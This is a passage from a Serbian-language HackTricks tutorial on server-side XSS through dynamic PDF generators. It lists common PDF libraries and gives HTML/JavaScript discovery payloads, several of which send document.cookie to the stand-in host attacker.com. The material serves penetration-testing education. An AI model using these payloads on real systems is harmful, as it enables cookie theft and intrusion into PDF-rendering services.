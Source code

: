 # Server Side XSS (Dynamic PDF)

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Server Side XSS (Dinamički PDF)

Ako veb stranica kreira PDF koristeći korisnički kontrolisani unos, možete pokušati da **prevarite robota** koji kreira PDF da **izvrši proizvoljni JS kod**.\
Dakle, ako **PDF kreator robot pronađe** neke vrste **HTML** **tagova**, on će ih **interpretirati**, a vi možete **zloupotrebiti** ovaj ponašanje da izazovete **Server XSS**.

Molim vas, obratite pažnju da `<script></script>` tagovi ne rade uvek, pa će vam biti potrebna druga metoda za izvršavanje JS koda (na primer, zloupotreba `<img` ).\
Takođe, imajte na umu da ćete u redovnom iskorišćavanju biti **u mogućnosti da vidite/preuzmete kreirani PDF**, pa ćete moći da vidite sve što **pišete putem JS-a** (koristeći `document.write()` na primer). Ali, ako **ne možete videti** kreirani PDF, verovatno ćete morati **izvući informacije praveći web zahtev ka sebi** (Slepi).

### Popularna generacija PDF-a

* **wkhtmltopdf** je poznat po svojoj sposobnosti da konvertuje HTML i CSS u PDF dokumente, koristeći WebKit render mašinu. Ovaj alat je dostupan kao open-source komandna linija, što ga čini dostupnim za širok spektar aplikacija.
* **TCPDF** nudi robustno rešenje unutar PHP ekosistema za generisanje PDF-a. On je sposoban za rukovanje slikama, grafikama i enkripcijom, što pokazuje njegovu sposobnost za kreiranje složenih dokumenata.
* Za one koji rade u Node.js okruženju, **PDFKit** predstavlja prihvatljivu opciju. Omogućava generisanje PDF dokumenata direktno iz HTML-a i CSS-a, pružajući most između web sadržaja i formata za štampanje.
* Java programeri mogu preferirati **iText**, biblioteku koja ne samo da olakšava kreiranje PDF-a, već podržava i napredne funkcionalnosti poput digitalnih potpisa i popunjavanja formulara. Njegov obuhvatan skup funkcionalnosti čini ga pogodnim za generisanje sigurnih i interaktivnih dokumenata.
* **FPDF** je još jedna PHP biblioteka, koja se ističe svojom jednostavnošću i lakoćom korišćenja. Namijenjena je programerima koji traže jednostavan pristup generisanju PDF-a, bez potrebe za naprednim funkcionalnostima.

## Payloadi

### Otkrivanje

```markup
<!-- Basic discovery, Write somthing-->
<img src="x" onerror="document.write('test')" />
<script>document.write(JSON.stringify(window.location))</script>
<script>document.write('<iframe src="'+window.location.href+'"></iframe>')</script>

<!--Basic blind discovery, load a resource-->
<img src="http://attacker.com"/>
<img src=x onerror="location.href='http://attacker.com/?c='+ document.cookie">
<script>new Image().src="http://attacker.com/?c="+encodeURI(document.cookie);</script>
<link rel=attachment href="http://attacker.com">
```
